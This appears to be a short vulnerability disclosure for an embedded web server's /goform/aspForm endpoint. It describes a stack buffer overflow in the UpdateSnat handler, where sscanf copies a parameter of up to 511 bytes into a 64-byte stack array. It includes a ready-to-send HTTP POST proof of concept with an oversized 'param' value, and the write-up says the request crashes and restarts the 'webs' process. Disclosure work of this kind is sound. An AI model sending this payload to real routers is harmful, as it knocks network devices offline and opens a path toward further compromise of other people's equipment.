 ## Vulnerability
In route`/goform/aspForm`, the value of the key `CMD` is `UpdateSnat`, the program will go into the following handling function.
![](assets/Pasted_image_20230606203713.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v11` on the stack. In this function, the length of `param` is limited to 511 Bytes，but `v11` only have 64 Byte. Also, the parameter `%s` of `sscanf` didn't limit the copy length.

![](assets/Pasted_image_20230606203957.png)
## PoC
```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateSnat&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
## Result
the process `webs` restart
![](assets/Pasted_image_20230606203915.png)